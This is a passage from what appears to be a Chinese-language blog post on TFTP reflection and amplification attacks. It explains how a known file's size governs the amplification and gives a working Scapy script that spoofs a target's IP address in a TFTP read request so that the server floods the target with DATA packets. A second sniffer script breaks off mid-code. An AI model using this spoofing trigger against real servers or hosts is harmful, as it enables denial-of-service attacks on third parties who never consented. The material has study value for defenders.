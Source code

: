 **2. TFTP服务器上已知文件的大小**

反射过来的DATA数据包的大小取决于读取文件的内容大小，这样就决定了我们最终反射放大的程度（相对于已知文件的文件名长度——影响请求包大小）。如果DATA数据包过小造成的影响也就很有限的了。

**3. 确定TFTP服务器可利用**

除了以上两点，如果存在其他的过滤机制，我们最终就需要测试一下该TFTP服务是否可利用，在攻击端伪造简单的数据包触发其反射到指定的主机上，代码如下：

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Trigger(object):
    def __init__(self, target, port, filename, server):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.target = target
        self.port = port
        self.filename = filename
        self.server = server    

    def run(self):
        t = IP(src=self.target, dst=self.server)/UDP(sport=self.port, dport=69)/TFTP()/TFTP_RRQ(filename=self.filename)
        send(t)
        print '[+] The trigger has benn sent !'    

if __name__ == '__main__':
    parser = optparse.OptionParser('uasge: %prog [options]')
    parser.add_option('-t', '--target', default=None,help='The ip of target')
    parser.add_option('-f', '--filename', default='larry', help='The filename for RRQ')
    parser.add_option('-p', '--port', type=int, default=2333, help='The src port of target')    

    (options, args) = parser.parse_args()
    if len(args) < 1 or options.target == None:
        parser.print_help()
        sys.exit(0)    

    trigger = Trigger(target=options.target, port=options.port, filename=options.filename, server=args[0])    

    trigger.run()
{% endhighlight %}

在我们之前指定的主机上检测一下是否有如期的DATA数据包到来即可，代码如下：

{% highlight python %}
#!/usr/bin/env python
#coding=utf-8    

import optparse
import sys
import logging    

from scapy.all import *    

class Sniff(object):
    def __init__(self, port):
        logging.getLogger('scapy.runtime').setLevel(logging.ERROR)
        self.port = port    

    def run(self):
        try:
            sniff(prn=self.udp_monitor_callback, filter='udp', store=0)
        except KeyboardInterrupt as e:
            print '[+] Bye !'
            sys.exit(0)    

 [1]: http://ojyzyrhpd.bkt.clouddn.com/20160323/1.png
 [2]: http://ojyzyrhpd.bkt.clouddn.com/20160323/2.png
 [3]: http://ojyzyrhpd.bkt.clouddn.com/20160323/3.png
 [4]: http://ojyzyrhpd.bkt.clouddn.com/20160323/4.png
 [5]: http://ojyzyrhpd.bkt.clouddn.com/20160323/5.png
 [6]: http://ojyzyrhpd.bkt.clouddn.com/20160323/6.png
 [7]: http://ojyzyrhpd.bkt.clouddn.com/20160323/7.png
 [8]: http://ojyzyrhpd.bkt.clouddn.com/20160323/8.png
 [9]: http://ojyzyrhpd.bkt.clouddn.com/20160323/9.png